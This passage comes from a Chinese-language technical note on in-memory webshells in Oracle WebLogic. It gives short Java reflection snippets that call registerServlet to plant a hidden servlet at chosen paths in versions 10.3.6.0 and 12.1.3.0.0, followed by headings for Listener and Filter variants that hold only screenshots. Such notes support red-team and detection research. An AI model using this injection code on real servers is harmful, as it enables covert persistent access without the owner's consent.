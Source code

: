 

反射调用
```java
Method registerServlet = webAppServletContext.getClass().getDeclaredMethod("registerServlet", String.class, String.class, String.class, Map.class);
registerServlet.setAccessible(true);
HashMap hashMap = new HashMap();
registerServlet.invoke(webAppServletContext, "TestServlet", "/abcd", servletClass.getName(), hashMap);
```
测试效果

![image](https://user-images.githubusercontent.com/55024146/143996228-773c6cf8-c801-4068-bcd9-8ce03e016de2.png)


##### 12.1.3.0.0

成员方法
- weblogic.servlet.internal.WebAppServletContext#registerServlet()
![image](https://user-images.githubusercontent.com/55024146/143996176-db4ea7f0-568b-492e-b20a-07ef8727f29c.png)


同样的，反射调用

```java
Method registerServlet = webAppServletContext.getClass().getDeclaredMethod("registerServlet", String.class, String.class, String.class);
registerServlet.setAccessible(true);
registerServlet.invoke(webAppServletContext, "TestServlet", "/121300", servletClass.getName());
response.getWriter().write("Servlet Injected Successfully!!!");
```

测试效果

![image](https://user-images.githubusercontent.com/55024146/143996258-5aef7689-b745-4273-95b8-e2f74776bb01.png)



#### 动态注册Listener内存马  


#### 动态注册Filter内存马  

##### 10.3.6.0

测试效果

![image](https://user-images.githubusercontent.com/55024146/144036760-4c29b12c-2b28-4270-a82b-7c812e2f7922.png)



##### 12.1.3.0.0

测试效果

![image](https://user-images.githubusercontent.com/55024146/144036974-997a4c40-c302-4c21-8770-e8581b6a9104.png)
